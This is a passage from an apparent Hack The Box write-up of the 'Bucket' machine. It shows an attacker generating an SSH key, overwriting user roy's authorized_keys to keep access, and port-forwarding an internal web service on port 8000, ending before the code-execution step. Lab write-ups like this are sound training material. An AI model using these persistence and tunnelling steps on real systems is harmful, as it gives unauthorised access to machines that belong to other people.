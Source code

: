 Looking at all available ports, `8000` seems to be the most likely one.

Let us quickly add our ssh-key to roy's authorized_keys, so we can tunnel through SSH and access port 8000.

```bash
root@darkness:~# ssh-keygen -f roy.key -N "" -q
```

After creating the key, we write `roy.key.pub` into roy's authorized_keys file.

```bash
roy@bucket:~/.ssh$ echo "ssh-rsa AAAAB[...]vwnd0=" > authorized_keys
```

Now we are able to use ssh to port-forward port 8000 to us.

```bash
root@darkness:~# ssh -i roy.key roy@bucket.htb -L 8000:127.0.0.1:8000
roy@bucket:~$ 
```

Now going to http://127.0.0.1:8000, we get following webpage shown:

![Internal webpage](/assets/htb/Bucket/http/internal-webpage.png)

Seems like the page is not interesting. However, remembering the source-code, when posting the action `get_alerts`, it should execute the php-code. 
